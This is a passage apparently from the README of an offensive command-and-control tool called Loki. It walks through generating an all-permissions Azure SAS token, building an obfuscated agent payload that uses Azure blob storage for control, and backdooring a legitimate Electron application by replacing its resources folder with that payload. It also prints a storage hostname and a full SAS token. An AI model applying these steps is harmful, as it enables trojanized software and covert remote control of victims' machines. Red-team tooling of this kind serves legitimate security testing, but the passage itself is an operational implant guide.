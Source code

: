 #### Generate a SAS Token

1. Go to Storage accounts in the Azure Portal.
2. Click on your storage account (mystorageaccount12345).
3. In the left menu, select `Shared Access Signature`.
4. Configure:
	- Permissions: Check all (`Read`, `Write`, `Delete`, `List`, `Add`, `Create`, `Update`, `Process`).
    - Allowed Services: Select `Blob`, `Queue`, `Table`.
    - Allowed Resource Types: Select `Service`, `Container`, `Object`.
    - Expiry Date: Set to 3 months from today.
    - Protocol: Choose `HTTPS only`.
5. Click `Generate SAS and connection string`.
6. Copy the `SAS Token` and `Blob Service SAS URL`.

### Create Obfuscated Loki Payload

```console
$ npm install --save-dev javascript-obfuscator
```

```console
$ nodejs obfuscateAgent.js
```

```console
[+] Provide Azure storage account information:
        - Enter Storage Account  : ydo5qhvfnnop3binduqk3i.blob.core.windows.net
```

```console
[+] Provide Azure storage account information:
        - Enter Storage Account  : ydo5qhvfnnop3binduqk3i.blob.core.windows.net
        - Enter SAS Token        : sv=2024-11-04&ss=bqt&srt=sco&sp=rwdlacupiytfx&se=2025-07-10T04:03:55Z&st=2025-04-09T20:03:55Z&spr=https&sig=Neb1LiDs%2FLUe%2B1ATBR8fhGqRY39mki3U%2F3rRLefCEUk%3D
```

```console
agent.js  assembly.html  assembly.js  assembly.node  browser.html  browser.js  common.js  config.js  crypt.js  handler.js  keytar.node  main.js  package.json
```

### Backdoor Electron Application

- Your obfuscated Loki payload is output to `./app/`.
- Change directory to the `{<ELECTRON_APP>}/resources/`.
- Delete everything.
- Copy the Loki `./app/` folder to `{<ELECTRON_APP>}/resources/app/`.
- Click the Electron PE file and make sure Loki works.

### Configure Loki Client

- Launch the Loki GUI client.
- From the menubar click `Loki Client > Configuration` to open the `Settings window`.
- Enter in your `Storage Account details` and click `Save`.

## Merlin
